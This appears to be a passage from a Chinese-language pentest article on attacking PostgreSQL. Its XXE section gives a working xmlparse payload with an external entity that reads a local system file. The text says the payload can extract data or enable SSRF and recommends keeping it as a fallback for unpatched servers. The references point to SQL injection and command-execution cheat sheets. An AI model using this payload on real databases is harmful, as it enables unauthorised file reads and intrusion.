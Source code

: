 ![pi6](20161018_02_pic_006.png)    
  
## XXE
老版本的 PostgreSQL 存在 XXE 漏洞。  
  
具体可以看这篇文章：PostgreSQL (all) error-based XXE 0day。   
  
大体就是执行语句：   
```
select xmlparse(document '<?xml version="1.0" standalone="yes"?><!DOCTYPE content [ <!ENTITY abc SYSTEM "/etc/network/if-up.d/mountnfs">]><content>&abc;</content>');
```
  
可以获取一些数据，也可以进行 SSRF 等。  
  
不过因为年代很久，可能很多都修复过了，所以作为一个保留方案，可能会有意外的惊喜。   
  
## 参考
1\. PostgreSQL SQL Injection Cheat Sheet  
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet  
  
2\. 关于PostgreSQL的那些事儿（文件读取写入、命令执行的办法）  
http://zone.wooyun.org/content/4971  
  
3\. PostgreSQL 9.0 Documentation   
http://www.postgresql.org/docs/9.0/  
  